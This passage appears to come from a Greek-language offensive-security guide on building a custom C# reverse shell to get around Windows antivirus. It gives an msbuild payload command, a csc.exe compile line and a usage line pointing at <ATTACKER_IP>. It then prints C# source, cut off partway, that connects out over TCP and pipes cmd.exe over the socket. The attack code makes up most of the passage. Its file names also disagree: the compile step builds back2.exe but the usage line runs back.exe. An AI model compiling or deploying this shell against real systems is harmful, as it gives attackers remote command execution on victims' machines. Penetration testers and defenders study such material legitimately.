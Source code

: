 ```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**Ο τρέχων αμυντικός θα τερματίσει τη διαδικασία πολύ γρήγορα.**

### Συγκέντρωση του δικού μας reverse shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Πρώτο C# Revershell

Συγκεντρώστε το με:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
Χρησιμοποιήστε το με:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
```